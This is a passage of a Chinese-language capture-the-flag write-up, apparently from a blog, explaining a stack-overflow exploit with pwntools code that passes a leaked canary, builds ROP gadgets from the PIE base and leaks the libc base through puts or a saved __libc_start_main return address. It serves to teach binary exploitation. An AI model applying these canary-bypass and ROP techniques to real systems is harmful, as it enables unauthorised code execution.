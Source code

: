```python
payload = "A" * (0x260-8) 
payload += p64(canary)
payload += p64(0)
payload += "\x20"
p.send(payload)


puts_plt = elf_base + puts_plt_add
puts_got = elf_base + puts_got_add
pop_rdi = elf_base + pop_rdi_add
start = elf_base + start_add
```



### leak libc_base_addr

两种解决方法：

- 程序调用了 puts ，也可以覆写 rip 调用 .plt.puts 输出 .got.puts 。两个函数地址需要加上 elf_base_addr 才是当前真实地址。得到 puts 真实地址，就可以计算 libc_base_addr 。

- 在 vul 中栈溢出，覆写到 main 的 rbp，输出并获取 main ret 的值。这个值一般指向的是 __libc_start_main+240。

  经过两次 ROP，main 栈空间会变得混乱，需要结合汇编分析，或者 OD 打断点查需要溢出的长度。因为两次ROP，main 本来只执行一次的 push rbp 却执行了3次，导致栈空间混乱。下图中：黑色为正常情况下的栈空间，蓝色为两次ROP之后的栈空间结构。可以看到，main rip 顶与 vul rip 顶距离为 0x8*4 。

  ![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191217233539.png)

  

  OD打断点，查询到的栈空间结构：

  ![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191217234101.png)

  泄露libc部分代码：

  ```python
  p.recvuntil("path:")
  p.sendline("flag")
  p.recvuntil("len:")
  p.sendline("1000")
  payload = "A" * (0x260 + 8*5-1)+"B" 
  p.send(payload)
  p.recvuntil("B")
  x = p.recvuntil("please")
  print x
  main_abs = u64(x[:8].split("\n")[0].ljust(8,"\x00"))
  libc_base = main_abs - 0x20830	#(libc.symbols["__libc_start_main"] + 240)
  print hex(main_abs)
  p.recvuntil("(len is 624)\n")
  payload = "A" * (0x260-8) 
  payload += p64(canary)
  payload += 'a'*0x8
  payload += p64(main)
  p.send(payload)
  ```
